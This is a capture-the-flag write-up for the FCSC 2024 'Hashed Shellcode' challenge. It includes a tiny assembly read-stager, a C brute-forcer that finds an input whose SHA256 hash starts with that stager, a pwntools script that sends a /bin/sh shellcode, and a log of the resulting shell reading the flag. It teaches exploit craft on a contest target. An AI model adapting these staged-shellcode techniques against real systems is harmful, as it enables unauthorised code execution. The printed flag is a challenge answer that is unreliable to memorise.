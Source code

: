 # FCSC 2024 - Hashed Shellcode
This year's shellcoding exercise

## Overview
- We provide a 32bytes string that has to either be a prefix or start with `FCSC_`, and be entirely made of printable characters
- it is then hashed with the `SHA256` algorithm
- the resulting hashed is executed as shellcode

## Solve
- Since the area where the shellcode is stored is `RWX`, my approach was to design the smallest shellcode that could read another shellcode in the given context, then provide it with an  `execve(/bin/sh,NULL,NULL)` auto-generated with pwntools
- While the docker image was not provided at the time O was working on it, I guessed that it would be `debian:bookworm` or similar, based on the information available in the FAQ
- I checked the state of the registers before the shellcode is called, inside this docker image
- Turns out `$rdi`, and `$rax` are 0, while `$rdx` points to the start of the shellcode
- Thus to call `read(0,shellcode,some_big_number` it turns out 4 bytes are enough:
```asm
push rdx
pop rsi
syscall
```
- I then wrote, compiled and ran a small C script to generate a suitable string whose hash's first 4 bytes match the above shellcode:
```C
#include <openssl/sha.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void sha256_string(char *string, char *output) /* from https://stackoverflow.com/questions/2262386/generate-sha256-with-openssl-and-c */
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
    SHA256_CTX sha256;
    SHA256_Init(&sha256);
    SHA256_Update(&sha256, string, strlen(string));
    SHA256_Final(output, &sha256);
}

const char alphabet [79] = "0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}";
const char target [4] = {0x52, 0x5e, 0x0f, 0x5};

int main() {
  char target [4] = {0x52, 0x5e, 0x0f, 0x5}; // push rdx; pop rsi; syscall
  char test[33];
  test[0] = 'F';
  test[1] = 'C';
  test[2] = 'S';
  test[3] = 'C';
  test[4] = '_';
  test[32] = 0;
  unsigned char idx[32];
  char hash[SHA256_DIGEST_LENGTH];
  int fd = open("/dev/urandom",O_RDONLY); // fastest way to read random indices that I figured out
  size_t l = strlen(alphabet);
  for(;;) {
    read(fd,&idx,32);
    for(int i = 5 ; i < 32 ; ++i) {
      test[i] = alphabet[idx[i]%l];
      sha256_string(test,hash);
    }
    //printf("%s\n",test);
    if(!strncmp(target,hash,4)) {
      printf("OK: %s\n",test);
      exit(1337);
    }
  }
}
```

- After a few minutes it outputed :
```
FCSC_A>Gu[63[t`?:cMA3[:Y9Y]]@aV{
```
- From there I just wrote a small solve script that sent this string, then a shellcode:
```python
io = start()
io.send(b"FCSC_A>Gu[63[t`?:cMA3[:Y9Y]]@aV{")
sleep(0.1)
io.sendline(flat({4:asm(shellcraft.sh())}))

io.interactive()
```

## FLAG
```
...# python3 solve.py
[*] '/home/skuuk/fcsc24/hsh/hashed-shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2107: Done
[*] Switching to interactive mode
Input:
$ ls
flag.txt
hashed-shellcode
$ cat flag.txt
FCSC{2bf3a8c59da61d5dd3ff402cb1ff11e0858246853297646bd1ad40bd944d8814}
```
